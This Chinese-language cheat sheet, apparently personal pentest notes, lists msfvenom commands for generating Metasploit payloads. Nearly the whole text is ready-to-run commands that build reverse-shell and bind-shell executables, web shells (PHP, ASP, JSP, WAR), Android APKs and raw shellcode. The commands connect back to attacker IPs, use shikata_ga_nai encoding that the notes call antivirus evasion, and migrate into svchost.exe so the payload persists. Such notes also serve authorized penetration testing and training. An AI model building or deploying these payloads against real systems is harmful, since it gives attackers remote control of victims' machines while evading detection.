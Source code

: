 # msfvenom 
[MSF生成Payload/反弹shell 方式总结](https://mp.weixin.qq.com/s/pIakrui_9vsQdun7aopUYw)

如果tcp不行换协议
reverse_tcp
reverse_http

常用参数
- 比如想查看windows/meterpreter/reverse_tcp支持什么平台、哪些选项,可以使用
msfvenom -p windows/meterpreter/reverse_tcp --list-options
- msfvenom --list payloads可查看所有payloads
- msfvenom --list encoders可查看所有编码器
  - 评级最高的两个encoder为 cmd/powershell_base64 和 x86/shikata_ga_nai,其中 x86/shikata_ga_nai也是免杀中使用频率最高的一个编码器
类似可用 msfvenom--list 命令查看的还有payloads,encoders,nops,platforms,archs,
encrypt,formats

## filter payloads list
```bash
# filter php
msfvenom -l payloads | grep "php" | awk '{print $1}'
```


## payload的可持续化
- 自动迁移到进程
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 -e x86/shikata_ga_nai -b "\x00" -i 5 -a x86 --platform win PrependMigrate=true PrependMigrateProc=svchost.exe -f exe -o shell.exe
```

- 生成的shell程序执行后会启动两个进程shell.exe和svchost.exe,关闭其中一个不会影响会话状态.
在上面的生成payload参数中:
- (1) PrependMigrate＝true PrependMigrateProc＝svchost．exe 使这个程序默认会迁移到
svchost.exe进程,自己测试的时候不建议到这个进程而是其他的持久进程.
- (2)使用-p指定使用的攻击载荷模块,使用-e指定使用x86／shikata_ga_nai编码器,使用-f选项告
诉MSF编码器输出格式为exe,-o选项指定输出的文件名为payload.exe,保存在根自录下.

## 正向反向payload区别, reverse_tcp和bind_tcp区别：
目标机器可以上网，那就使用reverse_tcp，让目标机器出网连接我们的服务器
无法外网的，使用正向连接，反向出不来 windows/x64/meterpreter/bind_tcp

注意，获得meterpreter的顺序为：先在win机器上执行我们的exe，然后再在msf上执行`exploit`。与`reverse_tcp`的顺序刚好相反。

```shell
[reverse_tcp]
attacker -> [contact me at the port 4444] -> victim

after the payload is executed
attacker <-> [port 4444] <-> victim

[bind_tcp]
attacker -> [open the way for me in the port 4444] -> victim

after execution
attacker <-> [port 4444] <-> victim
```


## 各平台的 payload/bin/exe/反弹shell
https://micro8.gitbook.io/micro8/contents-1/1-10/10msfvenom-chang-yong-sheng-cheng-payload-ming-ling

```bash
# Windows
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$ip LPORT=1234 -f exe > shell.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1234 -f exe > shell.exe
msfvenom -p windows/meterpreter/bind_tcp LPORT=1234 -f exe >bind.exe
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=$ip LPORT=1234  -f raw -o payload.ps1
msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=192.168.2.157 -e x86/shikata_ga_nai -b "\x00" -f py 
# 默认的stageless payload只会包含stageless，所以如果想将stdapi和priv两个组建给包含进去的华我们可以用extensions命令：
msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4444 EXTENSIONS=stdapi,priv -f exe -o stageless.exe

# Linux
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.50.80 LPORT=1234 -f elf > shell.elf
msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=1234 -f elf > shell.elf
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.50.80 LPORT=1234 -a x86 --platform Linux -f elf > shell.elf
msfvenom -p linux/x86/meterpreter/bind_tcp LPORT=1234 -a x86 --platform Linux -f elf > shell.elf

# Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho>shell.macho

# Android
msfvenom -a dalvik -p android/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 -f raw > shell.apk
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 R > test.apk
# PHP
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.80.103 LPORT=1123 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php' | tr-d '\n'>shell.php && pbpaste >> shell.php
# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YourP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address>LPORT=<Your Port to Connect On> -f raw > shell.jsp
# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$ip LPORT=1234 -f war > shell.war

# shellcode
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```
